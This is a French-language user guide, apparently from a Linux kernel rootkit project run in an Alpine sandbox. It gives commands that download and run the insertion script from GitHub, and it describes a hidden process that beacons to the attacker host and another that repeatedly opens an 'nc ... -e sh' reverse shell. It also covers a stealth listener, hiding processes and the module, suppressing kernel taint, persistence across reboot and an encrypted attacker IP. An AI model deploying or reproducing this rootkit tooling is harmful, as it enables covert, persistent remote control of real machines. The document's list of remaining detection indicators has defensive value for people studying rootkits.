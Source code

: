 # Documentation Utilisateur

## Mise en place d’une sandbox alpine LFS

Exécuter le script de lancement de l’Alpine LFS :  

```c
./script_generate_alpine_LFS.sh
```
Une version plus rapide de ce script fonctionnant avec l'image disk.qcow2 :
```c
./script_alpine_qcow2.sh
```

Se connecter à l'alpine avec les credentials `root:root`

## Insertion du rootkit

Récupérer le script d’insertion et l’exécuter dans l'alpine

```c
wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script
chmod +x insertion_script
./insertion_script
```

Depuis la machine hôte 

```c
ip a
```

Renseigner l'IP de l'hôte au script d’insertion 

## Interaction depuis la machine hôte

Un des processus de ce rootkit va envoyer un paquet réseau toutes les 30s.

Depuis la machine hôte on peut lancer un serveur python pour observer des logs provoqués par le rootkit :

```c
sudo python3 -m http.server 123
```

A l’insertion du module, on a : 

```c
"GET /START HTTP/1.1" 404 -
```

Toutes les 30s on a :

```c
"GET /UP HTTP/1.1" 404 -
```

Si un utilisateur sur l’alpine cherche à voir le processus qui déclenche ces logs, avec par exemple `ps`, `top`, ou un `ls` dans `/proc` le processus est kill puis relancé et on voit ce log : 

```c
"GET /RESTARTED_BECAUSE_SOMETHING_KILLED_ME HTTP/1.1" 404 -
```

Un processus du rootkit essaye d’établir un reverse shell toutes les 30s.

Depuis la machine hôte il est possible de lancer un reverse shell avec ce listener :

```c
sudo nc -lvnp 443
```

Attention lorsque la connection reverse shell est établie elle est visible via netstat depuis l’alpine, c’est pourquoi il est fourni un script python qui permet de kill la connection instantanément après avoir reçu une réponse de l’alpine.

```c
sudo python3 listener_discret.py "whoami"
```

L’utilisation de ce script python permet d’exécuter une commande sur l’alpine et de grandement diminuer les chances de se faire détecter par un netstat depuis l’alpine par rapport à la solution avec un listener classique de reverse shell. 

Il est possible de redémarrer l’alpine et le rootkit sera toujours en fonctionnement : 

```c
reboot
```

## Remarques et points d’attention

Lorsque le module est inséré, vous pouvez remarquer que : 

- pas de trace dans l’historique des commandes de l’insertion
- pas de log kernel “loading out of tree module taints the kernel”
- le kernel n’est pas tainted

```c
cat /proc/sys/kernel/tainted
0
```

- les processus réseaux initiés par le rootkit ne sont pas visible depuis l’alpine par un `ps` un `top` un `htop` ou plus généralement un parcours de `/proc`
- le module n’est pas visible avec `lsmod` et n’apparait pas dans `/proc/modules`

Néanmoins il est visible que :

- des kprobes sont enregistrées

```c
cbe2a877a075:~# cat /sys/kernel/debug/kprobes/list 
ffffffffad090094  k  __x64_sys_exit_group+0x4    [OPTIMIZED]
ffffffffad2b8674  k  __x64_sys_getdents64+0x4    [OPTIMIZED]
```

- Un kworker lié à notre rootkit est visible avec `ps`

```c
  626 root      0:00 [kworker/R-nfsio]
```

- les fichiers suivants, permettant la persistance de notre rootkit après un redémarrage (`reboot`), sont visibles et peuvent permettre de compromettre notre rootkit et l’IP de l’attaquant

```c
cbe2a877a075:~# cat /etc/modules
af_packet
ipv6
ipv4
```

```c
cbe2a877a075:~# ls /lib/modules/6.10.10/extra/
ipv4.ko
```

```c
cbe2a877a075:~# cat /etc/modprobe.d/ipv4.conf 
options ipv4 param=OGLPOHFPGKPOIN
```

Le paramètre param au dessus contient l’IP renseignée lors de l’insertion du script, mais chiffrée pour éviter de compromettre trop rapidement l’IP de l’attaquant.

- Il est possible de désactiver les kprobes avec :

```c
cbe2a877a075:~# echo 0 > /sys/kernel/debug/kprobes/enabled 
```

Ce qui désactive l’obfuscation de nos process.

Par exemple avec `ps` on voit désormais :

```c
  571 root      0:00 /bin/sh -c while true; do nc 192.168.95.170 443 -e sh; sle
  572 root      0:00 /bin/sh -c while true; do wget http://192.168.95.170:123/U
```

- les ports de destinations ont été choisis pour paraître habituels :
    - 443 pour le reverse shell (correspond habituellement au HTTPS)
    - 123 pour les paquets réseaux envoyés avec wget (correspond habituellement avec NTP)

- Dans le cas ou la persistance n’est pas nécessaire (serveur web n’ayant pas à être reboot), comme elle implique d’être facilement détectable à cause des 3 fichiers listés précédemment (`/etc/modules` par exemple) il existe un script d’insertion alternatif sans la persistance `insertion_script_without_persistence`

```c
wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script_without_persistence
chmod +x insertion_script
./insertion_script
```
